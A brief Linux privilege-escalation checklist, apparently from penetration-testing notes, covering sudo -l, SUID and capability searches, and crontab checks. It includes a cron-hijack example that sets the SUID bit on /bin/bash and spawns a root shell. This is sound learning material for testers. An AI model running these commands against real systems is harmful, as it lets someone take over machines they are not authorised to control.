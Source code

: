 - #### Check if Kernel / OS is out of date

Find a known CVE and its related exploits. Make sure you understand what the exploit does so as not to break anything on the server.

- #### Look for programs that your user can run with sudo rights

Run `sudo -l`

Use [GTFOBins](https://gtfobins.github.io/) to find information on how binaries with sudo rights can be used.

---

- #### Look for programs with SUID or GUID bit set

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Use [GTFOBins](https://gtfobins.github.io/#+suid) to find attack vectors

---

- #### Find binaries with *Capabilities*

```bash
getcap -r / 2>/dev/null
```

Use [GTFOBins](https://gtfobins.github.io/) to find attack vectors

---

- #### Look for crontab vulnerabilities

```bash
cat /etc/crontab
```

If you can modify a script that is run by cron you can get root access.

e.g.

```bash
#!/bin/bash
chmod u+s /bin/bash #Set the SUID bit on /bin/bash
````
run the command

```bash
/bin/bash -p
```

to run bash in privileged mode.

---
